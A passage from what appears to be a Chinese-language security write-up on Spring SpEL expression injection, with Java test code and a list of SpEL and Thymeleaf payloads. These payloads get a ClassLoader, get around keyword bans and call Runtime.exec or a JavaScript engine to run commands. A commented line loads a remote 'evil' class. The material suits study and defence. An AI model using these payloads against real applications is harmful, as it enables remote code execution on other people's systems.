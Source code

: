 然后起个http服务，最后运行就可以加载恶意类了。  
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691293442046-89e9554f-8848-4e9e-a715-c718aa67c869.png#averageHue=%23292a27&clientId=ue7d7a9ca-0a57-4&from=paste&height=733&id=uee334184&originHeight=916&originWidth=1773&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1896197&status=done&style=none&taskId=u0eee2e5c-3a75-4597-9b97-c085e087a90&title=&width=1418.4)

AppClassloader
--------------

这种其实大差不差。获取ClassLoader去加载本地的类。

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        //String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}

```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691293812726-69185599-deab-40fd-897b-a44a0a278962.png#averageHue=%23282a27&clientId=ue7d7a9ca-0a57-4&from=paste&height=864&id=u0e428bf7&originHeight=1080&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2307803&status=done&style=none&taskId=uf09a8870-c66e-46d9-b2f9-601e6f6694f&title=&width=1536)

通过各种方法获取AppClassloader
----------------------

我的纯度在你之上，假如ban掉了一些关键字，我们如何获取classloader成为了问题  
有如下几种方法。

```php
T(org.springframework.expression.Expression).getClass().getClassLoader()
#thymeleaf 情况下

T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader()
#web服务下通过内置对象

{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}

username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('xterm')")]=asdf
```
